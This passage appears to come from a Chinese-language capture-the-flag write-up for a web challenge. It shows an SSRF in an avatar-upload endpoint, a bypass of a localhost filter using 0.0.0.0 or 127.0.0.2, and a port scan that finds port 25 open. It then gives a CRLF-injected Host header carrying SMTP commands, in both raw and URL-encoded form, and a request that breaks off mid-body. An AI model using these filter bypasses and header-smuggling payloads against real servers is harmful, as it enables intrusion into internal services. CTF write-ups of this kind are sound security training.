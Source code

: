    ```
   http://web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/user/avatar
   ```

   这里存在ssrf漏洞。

   ![](/assets/ctfzone/TIM截图20180803234111.png)

   通过测试，可以发现过滤了`127.0.0.1`, `localhost`,可以通过`0.0.0.0`或者`127.0.0.2` bypass。

   端口扫描:

   示意图如下：

   ![](/assets/ctfzone/TIM截图20180803234335.png)

   

   经过测试，发现25端口开放。

   ![](/assets/ctfzone/port_scan.png)

   这里存在http header注入(CRLF注入)

   构造paylaod:

   ```
   Host: [0.0.0.0
   helo 1v3m
   mail from:<qaewjlfnwej@o3enzyme.com>
   rcpt to:<root>
   data
   subject: give me flag
   
   1v3m
   .
   ]:25
   ```

   最终payload:

   ```
   [0.0.0.0%0ahelo 1v3m%0amail from:<qaewjlfnwej@o3enzyme.com>%0arcpt to:<root>%0adata%0asubject: give me flag%0a%0a1v3m%0a.%0a]:25
   ```

7. solution1:

   最终请求包:

   ```
   POST /user/avatar HTTP/1.1
   Host: web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one
   User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
   Accept-Language: en-GB,en;q=0.5
   Accept-Encoding: gzip, deflate
   Referer: http://web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/user/avatar
   Content-Type: multipart/form-data; boundary=---------------------------4693211868403427471435307016
   Content-Length: 581
   Cookie: session=eyJ1aWQiOjgyN30.DjaSgA.ylhJXkstamQ7GahYWvUypKpvDQc
   DNT: 1
   Connection: close
   Upgrade-Insecure-Requests: 1
   
   -----------------------------4693211868403427471435307016
   Content-Disposition: form-data; name="avatar"; filename=""
   Content-Type: application/octet-stream
   
   
   ```